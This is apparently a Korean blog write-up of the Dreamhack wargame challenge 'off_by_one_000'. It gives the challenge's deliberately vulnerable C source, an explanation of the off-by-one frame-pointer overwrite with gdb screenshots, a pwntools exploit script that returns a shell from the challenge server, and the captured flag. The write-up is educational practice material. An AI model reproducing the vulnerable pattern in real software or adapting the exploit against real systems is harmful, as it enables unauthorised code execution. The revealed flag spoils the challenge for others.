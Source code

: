 ```yaml
---
layout: post
title: dreamhack wargame off_by_one_000 write-up
---
```


<br>
문제는 [dreamhack](https://dreamhack.io/wargame/challenges/9/)에서 받으실 수 있습니다.

----

<br>
{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name)); //FPO 취약점 발생

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}
{% endhighlight %}

메인에서 read 함수를 통해 cp_name에 sizeof로 사이즈를 정해주고 입력을 받는다.<br>
그러나 입력을 받을 때 마지막에 널 문자를 자동으로 넣어주기 때문에 sizeof(cp_name - 1) 이렇게 입력을 받았어야 한다.
<br>그러니 FPO취약점이 존재한다. 익스플로잇을 해보자.
<br>
<br>
FPO기법으로 인해 cpy함수의 SFP의 1byte가 NULL 바이트로 변조된다.

<br>
<br>
gdb를 통해 SFP가 어떻게 변조되는지 확인해보자.
![img1](/assets/img3.png)

cp_name의 변수 위치는 ebp - 0x100이다.<br>
ebp - 0x100의 주소 값을 확인해보자.

![img2](/assets/img4.png)
이제 cp_name 변수의 끝 부분이 NULL Byte(\x00)로 잘 변조되었는지 확인해보자.
![img3](/assets/img5.png)
0xffffd490의 값이 0xffffd400으로 변조되었다.<br>
<br>
이제 0xffffd400을 get_shell 함수의 주소로 바꿔주기만 하면 되는데<br>
주소를 완벽하게 찾아갈 필요 없이 cp_name을 모두 get_shell 함수의 주소로 바꿔주기만 하면 쉘이 실행될 수 있다.
<br><br>
get_shell 함수의 주소를 알아보자.
![img4](assets/img6.png)
이제 공격 코드를 짜 보자.

{% highlight python linenos %}
from pwn import *

p = remote('host1.dreamhack.games','19249')
#p = process('./off_by_one_000')

payload = '\xdb\x85\x04\x08' * (256 / 4)

p.sendline(payload)
p.interactive()
{% endhighlight %}

![img5](/assets/img7.png)
성공적으로 쉘을 획득했다.
<br>
FLAG : DH{fef043d0dbe030d01756c23b78a660ae}
